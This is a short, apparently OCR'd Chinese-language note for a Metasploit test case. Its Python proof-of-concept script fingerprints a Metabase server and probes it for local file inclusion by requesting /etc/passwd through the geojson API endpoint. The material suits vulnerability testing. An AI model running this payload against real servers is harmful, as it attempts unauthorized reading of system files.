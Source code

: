 ## Metasploit testcase
* 先使用 python 寫出一份 script，首先確認這個網頁是不是 metabase，再透過是否能夠拿到 `/etc/passwd` 來確認是否真的有 LFI 的漏洞。
    ```python
    #!/usr/bin/env python3

    import requests
    from urllib3.exceptions import ProtocolError, ConnectionError

    def find_base_url(url):
        base_url = f'http://{url}'
        try:
            result = requests.get(base_url, timeout = 3)
        except ProtocolError:
            base_url = f'https://{url}'
            result = requests.get(base_url, timeout = 3)

        return base_url

    def check_valid_url(url):
        res = requests.get(url, timeout = 3)
        if res and 'metabase' in res.text:
            return True
        else:
            return False

    def get_file(base_url, query):
        res = requests.get(f'{base_url}{query}', timeout = 3)
        if res and res.status_code == 200:
            return True
        else:
            return False

    def run():
        try:
            host = '192.168.104.55'
            port = '3000'
            target_uri = '/'
            query = 'api/geojson?url=file:///etc/passwd'

            base_url = find_base_url(f'{host}:{port}{target_uri}')

            if check_valid_url(base_url):
                print('Target is valid')
            else:
                print('It seems that this is not a website provided by metabase.')
                return

            if get_file(base_url, query):
                print('Successfully get /etc/passwd file')
            else:
                print('Failed to get /etc/passwd file')

        except Exception as e:
            print(e) 
